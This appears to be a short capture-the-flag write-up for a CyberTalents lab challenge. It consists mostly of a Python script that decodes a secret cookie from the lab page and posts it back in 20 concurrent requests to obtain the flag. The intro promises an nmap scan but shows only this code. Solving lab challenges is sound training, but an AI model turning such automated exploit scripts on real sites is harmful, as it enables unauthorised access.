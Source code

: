 ```yaml
---
layout: "post"
Date: 2024-03-24
title: "Thonk Machine Cybertalents"
---
```


We can start with nmap scan with command

`
import asyncio
import httpx
import requests
import time
import base64

burp0_url = "http://wcamxwl32pue3e6m5l3n94wbq36o873okkxmswvy-web.cybertalentslabs.com/index.php"
burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "en-EG,en;q=0.9,ar-EG;q=0.8,ar;q=0.7,en-GB;q=0.6,en-US;q=0.5,fr;q=0.4", "Connection": "close"}
Cookie = {"PHPSESSID":"554v5ia2g6ujp6a0o9hask0nv1"}

async def use_code(client):
    resp1 = await client.get(f'{burp0_url}')
    print("Response 1:", resp1)  # Check the response object
    secret_recv = resp1.cookies.get("secret")
    print("Secret received:", secret_recv)  # Check the secret received
    if secret_recv:
        secret = base64.b64decode(requests.utils.unquote(secret_recv)).decode()
        print("Decoded secret:", secret)  # Check the decoded secret
        data = {"Q": f"{secret}"}
        resp2 = await client.post(f'{burp0_url}', headers=burp0_headers , data=data, cookies=Cookie)
        print("Response 2:", resp2)  # Check the response object for the second request
        if "flag{" in resp2.text:
            print("Flag Founded")
        return resp2.text
    else:
        print("Secret not received")
        return None, None


async def main():
    async with httpx.AsyncClient() as client:
        tasks = []
        for _ in range(20): #20 times
            tasks.append(asyncio.ensure_future(use_code(client)))
        
        # Get responses
        results = await asyncio.gather(*tasks, return_exceptions=True)
        
        # Print results
        for r in results:
            print(r)
        
        # Async2sync sleep
        await asyncio.sleep(0.5)
    print(results)

asyncio.run(main())
`
